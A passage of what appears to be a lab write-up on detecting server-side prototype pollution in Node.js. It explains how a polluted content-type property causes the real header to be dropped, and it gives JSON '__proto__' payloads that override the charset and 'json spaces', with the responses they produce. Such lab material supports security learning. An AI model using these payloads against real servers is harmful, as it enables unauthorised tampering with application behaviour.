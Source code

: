 Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
```bash
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```

Due to a bug in Node's `_http_incoming` module, this works even when the request's actual `Content-Type` header includes its own charset attribute. To avoid overwriting properties when a request contains duplicate headers, the `_addHeaderLine()` function checks that no property already exists with the same key before transferring properties to an `IncomingMessage` object
```bash
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```
If it does, the header being processed is effectively dropped. Due to the way this is implemented, this check (presumably unintentionally) includes properties inherited via the prototype chain. This means that if we pollute the prototype with our own content-type property, the property representing the real Content-Type header from the request is dropped at this point, along with the intended value derived from the header

### PRACTITIONER Lab: Detecting server-side prototype pollution without polluted property reflection
The lab is about identifying the prototype pollution. 
So I tried charset override by sending the body:
```bash
...
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
```

Also JSON spaces override:
```bash
   "__proto__":{
        "json spaces": "7"
    }
```
The response was:
```bash
{
7"username": "wiener",
7"firstname": "Peter",
7"lastname": "Wiener",
7"address_line_1": "Wiener2 HQ",
7"address_line_2": "foo",
7"city": "Wienerville",
7"postcode": "BU1 1RP",
7"country": "UK",
7"isAdmin": false
}
```
